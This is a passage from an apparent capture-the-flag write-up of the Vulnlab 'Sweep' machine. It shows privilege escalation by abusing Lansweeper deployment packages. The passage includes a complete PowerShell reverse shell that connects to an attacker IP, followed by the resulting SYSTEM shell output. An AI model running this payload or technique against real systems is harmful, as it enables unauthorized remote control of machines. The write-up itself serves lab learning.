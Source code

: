 ## Privilege Escalation

Let’s login into the Lansweeper with this user and now we have higher privileges.

![User Configuration (Click on profile and Configured user info)](https://miro.medium.com/v2/resize:fit:828/format:webp/1*hUXCYV1juPQNmQUusYu2Rw.png)

Let’s map new credentials as `Windows Computer` and Domain set to `sweep\inventory` selecting `Inventory Windows`.

![Mapping Credentials](https://miro.medium.com/v2/resize:fit:640/format:webp/1*HFameuD480lU9Ox0eJfGKg.png)

Now let’s go to `Deployment` and then `Deployment Packages` and create a new package a special one ;)

![Creating a new package.](https://miro.medium.com/v2/resize:fit:828/format:webp/1*WeqFDCgy-wMUUMh8Pz-RpQ.png)

Time add our reverse shell. Click on `add step` and add the following reverse shell after selecting Action > Command. I’ll be using this powershell script #2 from [revshells](https://www.revshells.com/).

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.3.192',1447);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
{: .nolineno }

![Adding a step with a shell](https://miro.medium.com/v2/resize:fit:720/format:webp/1*VtZ2cwl6x87Yz3yCfM42fA.png)

Time to deploy the newly created package.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*XBmndwKfIvsrj16ocAqpng.png)

Now select `Deploy Now` and select `selection` and click `select assets`.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*LeR9bzbEYPBrdkfLvIzb5w.png)

Now on the pop up menu select `inventory` and done.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*GKoYX_-ZZHeJ-NrLm9GjCA.png)

Now deploy the scan we will receive a shell.

```bash
┍┽ penelope ┾┑ Session [1] > sessions 2
[+] Added readline support...
[+] Interacting with session [2], Shell Type: Basic, Menu key: Ctrl-D 
[+] Logging to /home/daffy/.penelope/sweep.vl~10.10.90.18/sweep.vl~10.10.90.18.log 📜
PS C:\Windows\system32> whoami
nt authority\system
```
{: .nolineno }

Time to get the root flag.

```powershell
PS C:\Users\Administrator\Desktop> more root.txt
VL{FLAG}
```
{: .nolineno }

We successfully hacked [Sweep](https://api.vulnlab.com/api/v1/share?id=65ddffc6-31d2-4247-bd4b-9ed2e3ab0d40) from Vulnlab. Thanks for reading.